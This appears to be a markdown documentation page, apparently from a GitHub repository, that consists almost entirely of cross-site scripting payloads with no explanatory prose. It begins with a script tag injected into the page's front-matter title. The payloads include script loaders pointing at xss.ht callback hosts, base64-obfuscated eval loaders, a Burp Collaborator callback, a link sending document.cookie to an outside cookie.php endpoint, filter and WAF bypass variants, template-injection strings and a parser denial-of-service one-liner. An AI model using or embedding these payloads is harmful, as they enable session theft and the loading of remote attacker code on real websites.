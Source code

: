 ```yaml
---
group: Contributing
weight: 222
title: '"><script src=https://wefwfwfwefwef.xss.ht></script>'
---
```

"><script src=https://wefwfwfwefwef.xss.ht></script>["><script src=https://wefwfwfwefwef.xss.ht></script>](\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e)

"><img src=x onerror=alert(document.domain)> "><img src=x onerror=alert(document.domain)>

"><img src=x onerror=alert(document.domain)>
" onmouseover=prompt(document.domain) i=
python3 -c 'print("!\[l"* 100000 + "\n")' | ./cmark-gfm -e autolink
{%00{constructor.constructor('alert(1)')()}%00}
x"><svg%250donload%3D"window%5B%27alert%27%5D(location[%27hostname%27])"
'"></title></textarea></script></style></noscript><script src=https://abc.xss.ht></script>
'"--></style></scRipt><scRipt>alert(111)</scRipt>
<notreal onpointerrawupdate=alert`0`>
"hello<form/><!><details/open/ontoggle=alert(88)>"@gmail.com
&quot;&gt;svg/onload=alert(0)&gt;
img1"onpointerrawupdate='alert(0)'">

"><img src=x onerror=alert(document.domain)>
" onmouseover=prompt(document.domain) i=
python3 -c 'print("!\[l"* 100000 + "\n")' | ./cmark-gfm -e autolink
{%00{constructor.constructor('alert(1)')()}%00}
x"><svg%250donload%3D"window%5B%27alert%27%5D(location[%27hostname%27])"
'"></title></textarea></script></style></noscript><script src=https://abc.xss.ht></script>
'"--></style></scRipt><scRipt>alert(111)</scRipt>
<notreal onpointerrawupdate=alert`0`>
"hello<form/><!><details/open/ontoggle=alert(88)>"@gmail.com
&quot;&gt;svg/onload=alert(0)&gt;
img1"onpointerrawupdate='alert(0)'">
"><img src="x" onerror="alert(document.domain)">.png
<img src='https://august-2022-bc-xss-challenge.herokuapp.com/images/cat.png'></img>
<marquee+loop=1+width=0+onfinish='new+Function`al\ert\`1\`\`'> 
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
<img src=x onerror=confirm()>
\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e
o'"></script><embed src=javascript:alert(1)>{{constructor.constructor('alert(155555)')()}}
edcjks'-alert(1)-'zzknc
"><iframe src="//www.14.rs">
"<br><center><h1>HTML injection </h1></a></center><!--

<iframe src="javascript:alert(1)">
"><svg onload=document.forms\\[1].action='http://pxqs92269gbygl144z1yp0i9u00uoj.burpcollaborator.net/?Hacked'><!--+
{{define "T1"}}<script>alert(1)</script>{{end}} {{template "T1"}
'-alert(document.domain)-'
aaa<h1>xss<a href='javascript:alert()'><script>alert(XSS)C.html
'"()&%25<acx><ScRiPt >alert(9261)<%2fScRiPt>
0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg" HTTP-EQUIV="refresh" a="a
OnMoUsEoVeR=prompt(/hacked/)//
"autofocus onfocus=alert(1)//
xssbymosec%222635167,3042225&l=dkkk%22%20autofocus%20onfocus%2526%2523%2578%2533%2564%253b%20%20alert%2526%2523%2578%2532%2538%253b%2526%2523%2578%2532%2539%253b%2526%2523%2578%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2533%2565%253b%20%2526%2523%2578%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2533%2563%253b
"></div></div><brute onbeforescriptexecute='confirm(document.domain)'>
?&q&zzz'onmou<seover=1&ale<rt('xsp'<)<;1; //
<Svg+Onload=[].pop.constructor`alert\x281\x29```>
data:text/html%3Bbase64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg==
JavaScript://%0aalert(9)
<script>
document.forms[0].submit();
</script>
<img src=1 onerror="s=document.createElement('script');s.src='//xss-doc.appspot.com/static/evil.js';document.body.appendChild(s);"
'"></script><img src=x onerror=alert()>{{7*7}}
<script><!><svg onload=a=alert,b=document.cookie,[b].find(a)>"
<iframe src="javascript:alert(1)">
l0cpd%22};a=alert,b=document.domain,a(b)//
<svg onload=alert(1)+
<svg onload=alert(1)//
<svg onload=alert(1)<!--
/"><img src=x onerror=prompt``>;<video>
javascript:alert('{{randstr}}')
<img src=1 onerror=alert(document.domain)>
<a href=”javascript&colon;alert&lpar;document&period;domain&rpar;”>Click 
{{this.constructor.constructor('alert("foo")')()}}
<video src=">" onerror=setTimeout`confirm\x281\x29`>
onclick="alert('hacking your megabits!1')"
onmouseover='(javascript payload)'
evilhostAerU6DRW.com
" onclick="alert(1)
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert('Got-Hacked-By-TheXerr0r') )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Got-Hacked-By-TheXerr0r')//>\x3e#
'onerror='alert("XSS")''
\";alert('XSS');//
javascript:alert(document.cookie)
<a href=”javascript&colon;alert&lpar;document&period;domain&rpar;”>Click 
<s%2563r%2569pt>alert(4)</s%2563r%2569pt>
javascript:alert(document.cookie)
 "><s"%2b"cript>alert(document.cookie</s"%2b"cript>
<iframe src=”data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E”></iframe>
javascript:onclick=alert(1);
"><img src=x onerror=window.open('https://www.google.com/');>
<form><button formaction=javascript&colon;alert(1)>CLICKME
<math><a xlink:href="//jsfiddle.net/t846h/">click
===========================
"><img src=https://www.no-gods-no-masters.com/img/tshirt-liberation-animale-liberation-humaine-D012747225P0210.jpg>”@x.y "
['-alert(document.cookie)-']
<svg/onload="[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164\50\61\51')()">
<svg onload=alert%26%230000000040"1")>
 <script>alert(String.fromCharCode(88, 115, 115, 32, 66, 121, 32, 79, 108, 100, 77, 111, 104, 97, 109, 109))</script>
Normal Payload XSS
<img src=x onerror=alert(1)>
Status \\[ 406 Not Acceptable ]
<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="alert(1)"></xss>
Bypass Payload
<img src=x onerror=(a=alert,b=1,a(b))>
Status \\[ 200 OK ]
<iframe <><a href=javascript&colon;alert(document.cookie)>Click Here</a>=&gt;&lt;/iframe&gt;
X-Forwarded-Host: evilhostrl8kmvoG.com
<svg/onload=alert()>
"accesskey='x' onclick='confirm\\`1\\`' //
========================
<style>@keyframesa{}b{animation:a;}</style><b/onanimationstart=prompt\\`${document.domain}&#x60;>
<javas style=font-size:500px onmouseover=location=tagName%2binnerHTML%2bURL>cript:</javas>#%0Aalert(1)
'444-555-4455 <img src=x onerror=alert(1)>'
 and put %23.html CRLF and XSS stored on ton.twitter.com
"><img src=x onerror=prompt\\``>
&url="><
<script src=”<%= ResolveUrl(“~/Script.js”) %>”></script>
/(A(%22onerror='alert%601%60'testabcd))/
<img src=1111111><img src=1111111><a href="javascript:alert&#40/1/&#41">axxx</a><svg></svg><img src=1>

<h1>holaaaaaaa||<a href="http://<a href="http://<a href="http://<a href="javascript:alert(document.cookie)" onmouseover="javascript:alert(document.cookie)">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">gle.com</a> hhh

<h1>holaaaaaaa||<a href="http://<a href="http://<a href="http://<a href="javascript:window.location='https://growncheckerworl.com/cookie.php?cookie=document.cookie'" >aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">gle.com</a> hhhk

I<!--StartFragment-->

"><script src=https://xsshunterco.xss.ht></script>



"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzaHVudGVyY28ueHNzLmh0Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw&#61;&#61; onerror=eval(atob(this.id))>



"><video><source onerror=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzaHVudGVyY28ueHNzLmh0Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw&#61;&#61;>



<script>$.getScript("//xsshunterco.xss.ht")</script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'https://xsshunterco.xss.ht\';document.body.appendChild(a)')



"><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzaHVudGVyY28ueHNzLmh0Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw&#61;&#61; autofocus>



<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//xsshunterco.xss.ht");a.send();</script>



"><iframe srcdoc="&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#118;&#97;&#114;&#32;&#97;&#61;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#114;&#101;&#97;&#116;&#101;&#69;&#108;&#101;&#109;&#101;&#110;&#116;&#40;&#34;&#115;&#99;&#114;&#105;&#112;&#116;&#34;&#41;&#59;&#97;&#46;&#115;&#114;&#99;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;xsshunterco.xss.ht&#34;&#59;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#98;&#111;&#100;&#121;&#46;&#97;&#112;&#112;&#101;&#110;&#100;&#67;&#104;&#105;&#108;&#100;&#40;&#97;&#41;&#59;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;">

<!--EndFragment-->